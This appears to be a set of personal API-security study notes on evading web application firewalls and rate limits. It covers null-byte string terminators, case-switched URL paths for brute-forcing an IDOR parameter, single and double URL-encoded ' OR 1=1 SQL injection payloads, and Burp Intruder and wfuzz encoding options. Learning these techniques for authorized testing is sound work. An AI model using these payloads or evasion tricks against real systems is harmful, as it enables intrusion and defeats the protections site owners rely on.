

## APISEC Evasive Maneuvers notes

Web App Firewalls often have security controls and rate-limiting to block attacks, some triggers are:

- Too many requests for resources that do not exist
- Too many requests within short period of time
- Common attacks such as SQL/XSS
- Abnormal behavior such as authorization vulnerability testing

Some measures to evade or bypass restrictions are:

### String Terminators

Null bytes and other symbols are many times interpreted as end of a string, if theyre not filtered out, they can terminate the API sec control filters, because theyare sometimes interpreted by the backend as a signifier to stop processing.


```
%00
0x00
//
;
%
!
?
[]
%5B%5D
%09
%0a
%0b
%0c
%0e
```

Example:
```
{
    “uname”: “hapihacker”
    “pass”: "%00'OR 1=1"
}
```

### Case switching
Means the literal switching of case of the letters within the URL path or payload. For example following POST request. If we were attempting an IDOR attack against target's uid parameter in the POST request:
```
POST /api/myprofile 
[…] 
{uid=§0001§} 
```
To bypass rate-limiting we could potentially just alter the URL path by switching upper- and lower-case letters in the path.

```
POST /api/myProfile 
POST /api/MyProfile 
POST /aPi/MypRoFiLe 
```
The WAF could then think that we're not bruteforcing on endpoint, and the requests would be targeted towards different endpoints, potentially bypassing rate-limiting.

### Encoding payloads

Simply encoding payloads to trick WAF's while still being processed by the target app or database. Even if the WAF filters out certain characters, they might miss encoded versions of those characters. Alternatively, we coudl also do double-encoding in attacks.

Examples:
```
URL Encoded Payload: %27%20%4f%52%20%31%3d%31%3b
API Provider URL Decoder: ' OR 1=1;

Double URL Encoded Payload: %25%32%37%25%32%30%25%34%66%25%35%32%25%32%30%25%33%31%25%33%64%25%33%31%25%33%62
API Provider URL Decoder: %27%20%4f%52%20%31%3d%31%3b
```

### Burp
We can then load the Wfuzz payloads into the Intruder to test how the requests are handled. We're going to be using payload processing rule's which are a powerful option in burp such as Add prefix "%00", Add suffix and encode the payload.



For example one payload in a request would then be:
```
{
    "mechanic_code":"TRAC_JME",
    "problem_details":"%25%30%30%31%2e%30%25%30%30",
    "vin":"1JGLQ98RSTD067966",
    "mechanic_api":"http://127.0.0.1:8888/workshop/api/mechanic/receive_report","repeat_request_if_failed":false,
    "number_of_repeats":1
}
```

Similarly we can find the encoders in wfuzz via
```wfuzz -e encoders```, we can then use an encoder in the CLI command like following:
```$ wfuzz -z list,TEST,base64-md5-none``` where the encoding format is specified after the payload -z separated with a comma. We can use multiple encoders in this methodology in order by separating them with a comma. If we want to use multiple encoders for singular payloads we can use @ sign to specify them!

More information in WAF bypassing in:
https://github.com/0xInfection/Awesome-WAF
